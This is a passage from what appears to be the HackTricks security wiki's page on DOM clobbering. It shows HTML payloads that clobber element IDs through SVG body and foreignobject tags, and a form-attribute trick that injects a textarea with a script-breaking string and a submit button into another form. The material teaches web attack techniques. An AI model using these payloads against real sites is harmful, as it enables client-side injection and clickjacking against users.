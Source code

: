 We looked at SVG too and it's possible to use the `<body>` tag there:

```html
<div style=display:none id=cdnDomain>example.com</div>
<svg><body id=cdnDomain>clobbered</body></svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```

You need a `<foreignobject>` tag in order to use the HTML tag inside SVG on both Chrome and Firefox:

```html
<div style=display:none id=cdnDomain>example.com</div>
<svg>
<foreignobject>
<html id=cdnDomain>clobbered</html>
</foreignobject>
</svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```

## Clobbering Forms

It's possible to add **new entries inside a form** just by **specifying the `form` attribute** inside some tags. You can use this to **add new values inside a form** and to even add a new **button** to **send it** (clickjacking or abusing some `.click()` JS code):

{% code overflow="wrap" %}
```html
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
{% endcode %}

* For more form attributes in [**button check this**](https://www.w3schools.com/tags/tag\_button.asp)**.**

## References

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker.

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
